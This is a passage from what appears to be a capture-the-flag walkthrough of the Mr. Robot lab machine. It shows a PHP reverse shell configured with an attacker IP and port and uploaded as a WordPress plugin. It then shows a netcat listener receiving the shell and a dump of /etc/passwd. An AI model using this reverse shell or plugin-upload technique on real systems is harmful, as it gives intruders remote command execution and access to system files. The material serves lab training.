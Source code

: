 ```
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.0.36';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
...
```

Once plugin uploaded I activated it and I got a shell on my listenner:
```
# nc -lvp 4444
listening on [any] 4444 ...
connect to [192.168.0.36] from mrrobot.local [192.168.0.67] 43098
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 13:33:33 up  2:18,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
Logged in as deamon, time to explore, I always start by listing users on the machine:
```
$ less /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
```
